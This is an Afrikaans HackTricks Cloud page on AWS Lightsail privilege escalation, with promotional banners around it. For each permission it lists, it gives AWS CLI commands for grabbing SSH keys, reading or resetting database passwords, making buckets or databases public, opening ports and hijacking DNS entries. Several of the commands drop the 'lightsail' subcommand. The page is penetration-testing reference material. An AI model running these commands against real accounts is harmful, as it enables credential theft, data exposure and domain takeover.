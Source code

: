 # AWS - Lightsail Privesc

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Lightsail

Vir meer inligting oor Lightsail, kyk na:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Dit is belangrik om daarop te let dat Lightsail **nie IAM-rolle wat aan die gebruiker behoort nie** gebruik nie, maar aan 'n AWS-bestuurde rekening, so jy kan nie hierdie diens misbruik om privesc te doen nie. Tog kan **sensitiewe data** soos kode, API-sleutels en databasisinligting in hierdie diens gevind word.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Hierdie toestemming sal jou in staat stel om die SSH-sleutels te kry om toegang tot die instansies te verkry:
```
aws lightsail download-default-key-pair
```
**Potensiële Impak:** Vind sensitiewe inligting binne die instansies.

### `lightsail:GetInstanceAccessDetails`

Hierdie toestemming sal jou in staat stel om SSH-sleutels te genereer om toegang tot die instansies te verkry:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die instansies.

### `lightsail:CreateBucketAccessKey`

Hierdie toestemming sal jou in staat stel om 'n sleutel te verkry om toegang tot die emmer te verkry:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die emmer.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Hierdie toestemming sal jou in staat stel om die geloofsbriewe te verkry om toegang tot die databasis te verkry:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die databasis.

### `lightsail:UpdateRelationalDatabase`

Hierdie toestemming sal jou in staat stel om die wagwoord te verander om toegang tot die databasis te verkry:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

As die databasis nie openbaar is nie, kan jy dit ook openbaar maak met hierdie toestemmings met

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potensiële Impak:** Vind sensitiewe inligting binne die databasis.

### `lightsail:OpenInstancePublicPorts`

Hierdie toestemming maak dit moontlik om poorte na die internet oop te maak.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potensiële Impak:** Toegang tot sensitiewe poorte.

### `lightsail:PutInstancePublicPorts`

Hierdie toestemming maak dit moontlik om poorte na die internet oop te maak. Let daarop dat die oproep enige poort wat nie daarop gespesifiseer is nie, sal sluit.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potensiële Impak:** Toegang tot sensitiewe poorte.

### `lightsail:SetResourceAccessForBucket`

Hierdie toestemmings maak dit moontlik om 'n instansie toegang tot 'n emmer te gee sonder enige ekstra geloofsbriewe

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potensiële Impak:** Potensiële nuwe toegang tot houers met sensitiewe inligting.

### `lightsail:UpdateBucket`

Met hierdie toestemming kan 'n aanvaller sy eie AWS-rekening leestoegang verleen oor houers of selfs die houers openbaar maak vir almal:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potensiële Impak:** Potensiële nuwe toegang tot emmers met sensitiewe inligting.

### `lightsail:UpdateContainerService`

Met hierdie toestemmings kan 'n aanvaller toegang verleen tot private ECRs vanaf die kontainerdiens.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potensiële Impak:** Kry sensitiewe inligting van private ECR

### `lightsail:CreateDomainEntry`

'n Aanvaller met hierdie toestemming kan 'n subdomein skep en dit na sy eie IP-adres verwys (subdomein-oorgeneem), of 'n SPF-rekord skep wat hom toelaat om e-posse van die domein te vervals, of selfs die hoofdomein na sy eie IP-adres instel.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potensiële Impak:** Oorname van 'n domein

### `lightsail:UpdateDomainEntry`

'n Aanvaller met hierdie toestemming kan 'n subdomein skep en dit na sy eie IP-adres verwys (subdomein-oorgawe), of 'n SPF-rekord skep wat hom in staat stel om e-posse van die domein te vervals, of selfs die hoofdomein na sy eie IP-adres instel.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potensiële Impak:** Oorname van 'n domein

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>
